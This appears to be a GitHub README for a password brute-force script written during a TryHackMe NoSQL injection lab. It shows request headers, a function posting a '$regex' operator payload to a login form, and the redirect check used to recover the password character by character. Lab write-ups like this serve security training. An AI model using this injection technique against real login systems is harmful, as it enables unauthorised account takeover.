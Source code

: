 # no-sql-password-bruteforce
With the help of chatgpt, I made a script that bruteforces the password of a no sql application while doing a THM lab (https://tryhackme.com/room/nosqlinjectiontutorial)

![image](https://github.com/user-attachments/assets/f0101684-605d-4185-b2b7-0c58191c93e6)

After running the script

![image](https://github.com/user-attachments/assets/5d6b0b3e-ce42-44e3-9eb2-caf134330193)

# What to do first

*First, fill the headers and data such that it is the same as your HTTP request.*

Example: 
```
headers = {
    "Host": "10.10.123.171",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://10.10.123.171",
    "Connection": "keep-alive",
    "Referer": "http://10.10.123.171/",
    "Cookie": "PHPSESSID=2j8v8s9atem0ks7a6gtpmmedgk",
    "Upgrade-Insecure-Requests": "1"
}

def try_password_regex(prefix):
    data = {
        "user": "pedro",
        "pass[$regex]": f"^{prefix}.*$",
        "remember": "on"
    }
    response = requests.post(url, headers=headers, data=data, allow_redirects=False)
    return response
 ```
 
*Second, don't forget to change the max number of characters (for me it was 4 characters for the user pedro)*

*Lastly, change the location header that it will redirect you to if the password fails.*

```
 if response.status_code == 302 and location_header != "/?err=1":
                password += char
                print(f"[+] Found character {i+1}: {char} => {password}")
                break
```
I was redirected to `/?err=1` if the character was wrong.


Good Luck!
